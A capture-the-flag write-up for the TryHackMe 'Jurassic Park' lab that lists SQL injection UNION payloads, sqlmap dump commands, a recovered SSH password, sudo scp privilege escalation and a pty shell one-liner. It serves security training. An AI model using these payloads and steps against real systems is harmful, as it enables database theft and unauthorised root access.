

---
---

# THM - Jurassic Park

NMAP


Website  `http://10.10.204.254/shop.php`


- Clicking on one gives the following URL:

`http://10.10.204.254/item.php?id=3`

- If you remove the ?id=3 it results in:


- So we know it's MySQL

- Attempting to break it:

`http://10.10.204.254/item.php?id=3'`

or using Union

`http://10.10.204.254/item.php?id=3 UNION SELECT 1 --`


- I randomly changed the id=100  `http://10.10.204.254/item.php?id=100`


Compared to (normal request ie. id=1):


- Fuzzing the id field ?id=5

`http://10.10.204.254/item.php?id=5`


`http://10.10.204.254/item.php?id=5 union select 1`


```bash
union select 1,2,3,4,5

```


- 2 and 4 are being reflected so:
```bash
union select 1,database(),3,version(),5

```


- Fetch the users table from the database

```bash
?id=1 union select 1,2,3,group_concat(column_name),5 from information_schema.columns where table_schema = database() and table_name = "users"

```



- Get column passwords from the table

```bash
?id=1 union select 1,2,3,password,5 from users

```


- But it dared me to use SQLMap so...

- Open Burp and capture the request. Save the request to a file (burp)


- Run SQLMap:
```bash
sqlmap -r burp --batch

```
- Found the following injection points:


- Or just dump the database (more noisy):
```bash
sqlmap -r burp --batch --dump

```


**Dennis : ih8dinos**

- SSH with the credentials:
```bash
ssh dennis@10.10.204.254

```
- Enumeration:

```bash
sudo -l

```


- We can run scp as sudo

- GTFOBins


- Got Root


- Stabilise:
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```


- Search for flags
```bash
find / -name "flag\*" 2>/dev/null

```


- Found flag3 in:
/home/dennis/.bash_history